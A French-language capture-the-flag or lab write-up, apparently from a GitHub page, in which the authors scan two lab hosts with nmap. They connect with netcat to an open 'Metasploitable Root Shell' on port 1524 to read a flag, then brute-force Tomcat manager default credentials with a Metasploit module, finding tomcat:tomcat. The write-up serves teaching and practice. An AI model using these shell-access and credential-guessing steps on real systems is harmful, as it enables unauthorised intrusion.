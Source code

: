 ``````shell
41276/tcp open     mountd       1-3 (RPC #100005)
41771/tcp open     status       1 (RPC #100024)
52984/tcp open     nlockmgr     1-4 (RPC #100021)
``````

Suite au scan des ports, on a découvert que sur le port 1524 de la machine il y avait un service nommé `Metasploitable Root Shell`. On s'y est donc connecté avec un `netcat`. 

``````shell
nc 10.10.40.85 1524
ls
# affichage des
#... fichiers (dont flag.txt)
#... dossiers

cat flag.txt
# AST16{m3745p1017_p0w3r_700_345y}*
``````

La connexion s'effectue sans problème et nous avons un `shell` fonctionnel sur la machine. Avec un `ls`, on a pu lister les fichiers et dossiers du répertoire courant. On a ensuite visualisé le fichier appelé `flag.txt` à l'aide de la commande suivante : `cat flag.txt`.

Le flag de cette machine est : `AST16{m3745p1017_p0w3r_700_345y}`



#### Host 10.10.40.122

````shell
#Scan des ports avec
nmap -sV -p0-65535 10.10.40.122

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-16 09:49 BST
Nmap scan report for 10.10.40.122
Host is up (0.016s latency).
Not shown: 65534 closed ports
PORT     STATE    SERVICE     VERSION
0/tcp    filtered unknown
8080/tcp open     http-proxy?
````

Sur cette machine, on peut voir qu'il y a uniquement le port 8080 qui est ouvert avec un service web derrière. On s'est donc connecté via l'URL suivante : `http://10.10.40.122:8080` et nous avons obtenu la page web de base du serveur web `Tomcat`. On a parcouru les différents liens de la page et avons constaté qu'il fallait des identifiants pour se connecter au `manager webapp`.

Pour nous y connecter, nous avons décidé de tester les mots de passe par défaut à l'aide d'un module de `metasploit`. Ce module teste l'ensemble des identifiants par défaut présents dans la base de données de `metasploit` sur le formulaire de connexion du manager de Tomcat. 

````shell
msfconsole
use auxiliary/scanner/http/tomcat_mgr_login			#pour tester les id par défaut
set RHOST 10.10.40.122								#ip de la victime
run

#Identifiant trouvé user:password
tomcat:tomcat
````
